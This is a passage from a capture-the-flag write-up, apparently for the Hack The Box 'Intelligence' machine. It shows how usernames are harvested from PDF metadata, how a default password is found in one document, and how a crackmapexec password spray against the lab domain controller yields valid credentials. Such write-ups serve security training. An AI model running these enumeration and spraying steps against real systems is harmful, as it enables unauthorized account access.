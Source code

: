 First, I pulled down the metadata of each file to find its creator and create a list of potential Active Directory users.
```shell
┌──(kali@kali)-[~/htb/intelligence/pdf]
└─$ for i in 202*; do pdfinfo $i | grep 'Creator' | awk -F' ' '{print $(NF)}'; done >> users.lst

┌──(kali@kali)-[~/htb/intelligence/pdf]
└─$ cat users.lst
William.Lee
Scott.Scott
...
```
Second, I manually inspected each file to see if the document itself contained any useful information. One of the files contained the default password used to set up accounts.
![PDF with default password](/img/posts/intelligence/web2.png){:class="img-responsive"}
Armed with a listing of potential users and a default password, I performed a password spray attack and found that the credentials were valid for the `Tiffany.Molina` user.
```shell
┌──(kali@kali)-[~/htb/intelligence/pdf]
└─$ crackmapexec smb -u users.lst -p NewIntelligenceCorpUser9876 -d intelligence.htb 10.10.10.248
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [-] intelligence.htb\William.Lee:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Scott.Scott:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
...
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```
### Privilege Escalation